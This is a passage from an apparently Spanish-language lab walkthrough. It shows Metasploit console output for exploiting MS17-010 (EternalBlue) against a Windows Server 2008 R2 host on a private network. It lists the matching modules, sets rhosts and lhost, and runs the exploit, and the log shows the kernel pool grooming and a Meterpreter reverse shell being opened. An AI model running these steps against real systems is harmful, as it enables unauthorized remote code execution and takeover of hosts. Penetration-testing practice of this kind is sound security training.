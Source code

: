     Matching Modules
    ================

    #  Name                                      Disclosure Date  Rank     Check  Description
    -  ----                                      ---------------  ----     -----  -----------
    0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
    1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
    2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
    3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
    4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


    Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

    msf6 > use 0
    [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms17_010_eternalblue) >
    ```
2. Configurando los parámetros necesarios para el exploit y ejecutándolo.
    ```bash
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.0.0.101
    rhosts => 10.0.0.101
    msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.0.0.100
    lhost => 10.0.0.100
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run

    [*] Started reverse TCP handler on 10.0.0.100:4444 
    [*] 10.0.0.101:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.0.0.101:445        - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (64-bit)
    [*] 10.0.0.101:445        - Scanned 1 of 1 hosts (100% complete)
    [+] 10.0.0.101:445 - The target is vulnerable.
    [*] 10.0.0.101:445 - Connecting to target for exploitation.
    [+] 10.0.0.101:445 - Connection established for exploitation.
    [+] 10.0.0.101:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.0.0.101:445 - CORE raw buffer dump (51 bytes)
    [*] 10.0.0.101:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
    [*] 10.0.0.101:445 - 0x00000010  30 30 38 20 52 32 20 53 74 61 6e 64 61 72 64 20  008 R2 Standard 
    [*] 10.0.0.101:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
    [*] 10.0.0.101:445 - 0x00000030  6b 20 31                                         k 1             
    [+] 10.0.0.101:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.0.0.101:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.0.0.101:445 - Sending all but last fragment of exploit packet
    [*] 10.0.0.101:445 - Starting non-paged pool grooming
    [+] 10.0.0.101:445 - Sending SMBv2 buffers
    [+] 10.0.0.101:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.0.0.101:445 - Sending final SMBv2 buffers.
    [*] 10.0.0.101:445 - Sending last fragment of exploit packet!
    [*] 10.0.0.101:445 - Receiving response from exploit packet
    [+] 10.0.0.101:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.0.0.101:445 - Sending egg to corrupted connection.
    [*] 10.0.0.101:445 - Triggering free of corrupted buffer.
    [*] Sending stage (200774 bytes) to 10.0.0.101
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.0.0.101:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [*] Meterpreter session 1 opened (10.0.0.100:4444 -> 10.0.0.101:49320) at 2023-10-20 14:14:40 +0200